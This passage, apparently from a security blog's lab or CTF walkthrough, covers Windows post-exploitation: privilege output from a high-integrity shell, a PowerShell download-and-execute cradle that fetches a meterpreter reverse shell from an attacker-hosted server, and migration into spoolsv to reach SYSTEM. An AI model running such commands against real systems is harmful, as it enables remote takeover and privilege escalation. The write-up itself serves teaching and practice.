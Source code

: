 ```
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                 


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

ERROR: Unable to get user claims information.

C:\shared>
```
We can observe we have a high-integrity shell, and we are part of NT AUTHORITY. So after all that ropping, I went the easy way and first called a PowerShell reverse_shell and generate a 32-bit meterpreter shell  (remember, we are running on an x86 process).

Next, let's host the reverse shell in a Python web server. and execute PowerShell to download and execute the meterpreter reverse shell with the followign command.

```
(new-object system.net.webclient).DownloadString('http://10.8.0.138/dplashell.txt') | IEX
```
We got a meterpreter session. 

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/2023-07-02-19-40-40.png)

Elevating privileges is now trivial. Migrating to a SYSTEM process, like the _spoolsv_ process, and use the __migrate__ command in Metasploit we'll be enough to accomplish this.

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/2023-07-02-19-44-42.png)
